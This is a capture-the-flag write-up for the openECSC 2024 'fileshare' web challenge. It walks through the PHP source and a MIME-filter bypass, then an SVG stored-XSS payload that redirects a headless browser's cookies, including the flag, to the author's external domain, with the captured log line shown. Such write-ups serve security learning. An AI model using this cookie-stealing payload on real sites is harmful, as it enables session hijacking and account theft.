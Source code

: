 # fileshare

## Description

```
You can now share your files for free thanks to our new disruptive technology!

Site: https://fileshare.challs.open.ecsc2024.it
```

## Categories

- `web`

## Provided Files

- `fileshare.zip`

## Solve Process

We can firstly observe the provided source code, which shows us where the flag is located.

```php
if (isset($_POST['email']) || isset($_POST['fileid']) || isset($_POST['message'])) {
    
    $fileid = $_POST['fileid'];
    if (preg_match('/^[a-f0-9]{30}$/', $fileid) === 1) {

        $url = 'http://' . getenv('HEADLESS_HOST');
        $chall_url = 'http://' . getenv('WEB_DOM');
        $act1 = array('type' => 'request', 'url' => $chall_url);
        $act2 = array('type' => 'set-cookie', 'name' => 'flag', 'value' => getenv('FLAG'));
        $act3 = array('type' => 'request', 'url' => $chall_url . '/download.php?id=' . $fileid);
        
        $data = array('actions' => [$act1, $act2, $act3], 'browser' => 'chrome');
        $data = json_encode($data);

        $options = array(
            'http' => array(
                'header'  => "Content-type: application/json\r\n" . "X-Auth: " . getenv('HEADLESS_AUTH') . "\r\n",
                'method'  => 'POST',
                'content' => $data
            )
        );

        $context  = stream_context_create($options);
        $result = file_get_contents($url, false, $context);

        if ($result === FALSE) {
            echo '<div class="alert alert-danger" role="alert">Sorry, there was an error sending your message.</div>';
        } else {
            echo '<div class="alert alert-success" role="alert">Thank you, we are taking care of your problem!</div>';
        }
```

Okay so we're dealing with a headless browser again and the flag is inside a cookie. Additionally, this essentially lets us open a file of our choice based on the files ID.

Lets examine a bit further.

```php
if( isset($_FILES['file']) ) {
    $target_dir = "/uploads/";

    $fileid = bin2hex(random_bytes(15));
    $target_file = $target_dir . $fileid;

    $type = $_FILES["file"]["type"];
    // I don't like the letter 'h'
    if ($type == "" || preg_match("/h/i", $type) == 1){
        $type = "text/plain";
    }

    $db = db_connect();
```

This is the file upload endpoint, which is always very interesting because it also lets us show and download the files, so this could point to a `XSS` vulnerability.

Since `html` is seemingly filtered out here, we can think of other payloads, such as `.svg`. Let's craft a payload that calls my domain with the `document.cookie` specifier embedded, so I get all the cookies the request has currently set.

```svg
<svg version="1.1" xmlns="http://www.w3.org/2000/svg" viewBox="0 0 24 24" style="">
  <script type="text/javascript">
    window.location.replace(`https://k1f0.dev/${encodeURI(document.cookie)}`)
  </script>
</svg>
```

After uploading this payload to the upload endpoint, clicking "Show" yields me this.

```
https://fileshare.challs.open.ecsc2024.it/download.php?id=a164fe7bbedb39cae5098b4c28b1d6
```

And above link redirects me to my actual page, so we know a script execution takes place and a request is successfully made.

We now just need to input it as a support request, using the file id `a164fe7bbedb39cae5098b4c28b1d6` from above

And after submitting it and watching my NGINX access log, we do actually get a request.

```
- - "GET /PHPSESSID=21481e27e0323ca4811c28684a34ad84;%20flag=openECSC%7Bwhy_w0uld_u_sh4re_th1s%7D HTTP/1.1" 404 972 "https://fileshare.challs.open.ecsc2024.it/" "chrome-headless-agent"
```

And that is a solve.
